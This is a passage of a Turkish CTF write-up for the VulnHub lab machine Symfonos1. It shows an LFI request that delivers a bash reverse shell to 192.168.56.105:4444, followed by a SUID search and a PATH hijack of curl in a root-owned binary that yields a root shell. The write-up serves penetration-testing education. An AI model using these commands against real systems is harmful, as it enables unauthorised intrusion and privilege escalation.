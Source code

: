 {{< image src="/images/vulnhub/symfonos1/lfi2.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

## 2. Erişim Sağlanması

 ```cmd=/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.105/4444 0>&1'``` şeklinde istek atılarak  4444 numaralı porttan **helios** kullanıcısı yetkisi ile terminal bağlantısı sağlanır.
```txt
../ajax_shortcode_pattern.php?ajax_path=/var/mail/helios&cmd=/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.105/4444 0>&1'
```

## 3. Yetki Yükseltme

Python pty modülü kullanılarak etkileşimli kabuğa geçilir.
```python
python -c 'import pty;pty.spawn("/bin/bash")'
```
İlk olarak ```sudo -l``` komutu çalıştırıldığında, komut bulunamadı hatası ile karşılaşılır. Sistem de suid biti aktif dosyalar için araştırma yapılır.

```bash
find / -perm -u=s -type f 2>/dev/null
```

{{< image src="/images/vulnhub/symfonos1/suid.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

/opt dizini altında yer alan **statuscheck** adlı uygulama dikkat çekmektedir. Dosya sahibinin root olduğu görülmektedir.

{{< image src="/images/vulnhub/symfonos1/own.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Uygulama çalıştırıldığında apache sunucusuna istek atıldığı dönen paketin header bilgisinin ekrana basıldığı görülmektedir. Strings aracı ile uygulama içerisinde yer alan string ifadeler çıkarılır.

{{< image src="/images/vulnhub/symfonos1/content.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Curl komutu ile localhosta istek atıldığı görülmektedir. Ayrıca curl komutu için tam path verilmemiştir. Bu kapsamda;
1. */home/helios* dizininde curl adında bir dosya oluşturulur.
2. ***curl*** dosyası içerisine shell oturumu için kodlar eklenir.
3. **PATH** değişkeninin başına curl dosya pathi eklenir.

```bash
echo "/bin/sh" > curl
export PATH=/home/helios:$PATH
/opt/statuscheck
```
Dosya çalıştırıldığında root yetkisi ile oturum elde edilir.

{{< image src="/images/vulnhub/symfonos1/priv.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Proof.txt okunarak makina çözümleri tamamlanır.

{{< image src="/images/vulnhub/symfonos1/flag.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}




